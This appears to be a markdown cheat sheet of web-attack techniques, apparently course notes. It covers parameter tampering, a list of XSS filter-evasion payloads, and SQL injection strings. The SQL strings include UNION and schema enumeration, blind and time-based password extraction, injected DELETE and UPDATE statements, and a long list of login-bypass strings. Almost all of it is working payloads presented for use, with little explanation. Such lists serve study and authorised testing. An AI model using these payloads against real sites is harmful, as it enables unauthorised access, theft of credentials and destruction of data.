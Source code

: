 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode` (if no quotes of any kind are allowed, use `eval()` to create any XSS vector)
```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
- Default `src` tag to get past filters that check SRC domain
```html
<IMG SRC=# onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it empty
```html
<IMG SRC= onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it out entirely
```html
<IMG onmouseover="alert('xxs')">
```
- On error alert
```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```
- `img onerror` and JavaScript alert encode
```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
- Embedded tab
```html
<IMG SRC="jav ascript:alert('XSS');">
```
- Embedded encoded tab
```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
- Embedded newline to breakup XSS
```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
- Spaces and meta characters before the JavaScript in images for XSS
	- Useful if the pattern match does not take into account spaces in the word `javascript`
```html
<IMG SRC=" &#14; javascript:alert('XSS');">
```

### XSS Payload Lists

## SQL Injection
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack (column number)
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```

- Attacking with IF and SUBSTRNG statements
> SUBSTRING() extracts a character from a string via its index

```
0' or userid=if([condition],'1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='a','1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='b','1','0'); -- - 

1' or userid=if((select substr(password,1,1) from user where userid='1')='a',sleep(0.3),'0'); -- - 
1' or userid=if((select substr(password,1,1) from user where userid='1')='abc',sleep(0.3),'0'); -- - 
```

**More attack scenarios:**
- `delete from user where userid = '${userid}'`
```
delete from user where userid = '' or 1=1;-- - '${userid}';
```
- `update user set age='${age}' where userid = '${userid}'`
```
update user set age='10', password='123';-- - '${age}' where userid='${userid}';
```

### SQL Injection Payloads
- **Basic Payloads**
```
1'1
1 exec sp_ (or exec xp_)
1 and 1=1
1' and 1=(select count(*) from tablenames); --
1 or 1=1
1' or '1'='1
1or1=1
1'or'1'='1
fake@ema'or'il.nl'='il.nl
```

- **Authentication Bypass**
```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

